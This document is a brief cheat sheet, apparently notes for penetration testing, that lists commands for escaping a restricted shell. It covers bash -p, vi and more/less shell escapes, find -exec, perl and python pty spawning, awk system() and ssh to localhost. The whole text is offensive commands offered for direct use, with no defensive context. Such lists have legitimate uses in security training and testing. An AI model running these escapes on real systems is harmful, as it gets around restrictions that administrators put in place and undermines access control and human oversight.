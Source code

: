 Check shell
```bash
echo $0
```
Can you switch shells?
```bash
/bin/bash -p
```
spawn shell with `vi`
```bash
vi -c ':!bash'
vi -c ':!sh'
```
`more` or `less` to spawn shell
```bash
more /etc/passwd
# then type “!sh” to open shell
```
find for execution
```bash
find . -exec /bin/sh \; -quit
```
perl or python
```bash
perl -e 'exec "/bin/sh";'
python -c 'import pty; pty.spawn("/bin/bash")'
```
awk
```bash
awk 'BEGIN { system("/bin/sh") }'
```
If `ssh` client is available, you can do `ssh user@localhost` if key-based auth exists.
